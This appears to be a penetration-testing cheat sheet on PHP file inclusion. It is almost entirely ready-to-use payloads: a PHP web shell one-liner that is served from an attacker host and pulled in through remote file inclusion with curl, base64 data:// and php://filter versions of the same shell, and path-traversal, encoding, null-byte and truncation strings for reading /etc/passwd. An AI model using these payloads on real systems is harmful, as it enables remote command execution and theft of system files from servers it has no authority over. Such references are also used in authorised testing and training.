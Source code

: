 # File Inclusion

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```powershell
http://10.10.10.10/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

<pre class="language-bash"><code class="lang-bash">echo '&#x3C;?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
<strong>curl 'http://10.10.10.10/index.php?page=http://&#x3C;attacker>/shell.txt&#x26;cmd=&#x3C;comand>'
</strong></code></pre>

If the server were blocking access to external resources, we could try using the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```powershell
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://10.10.10.10/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://10.10.10.10/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://10.10.10.10/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://10.10.10.10/index.php?page=%252e%252e%252fetc%252fpasswd
http://10.10.10.10/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Absolute Path

```powershell
http://10.10.10.10/index.php?page=/etc/passwd
```

### Truncation

```powershell
http://10.10.10.10/index.php?page=../../../etc/passwd......[ADD MORE]
http://10.10.10.10/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://10.10.10.10/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
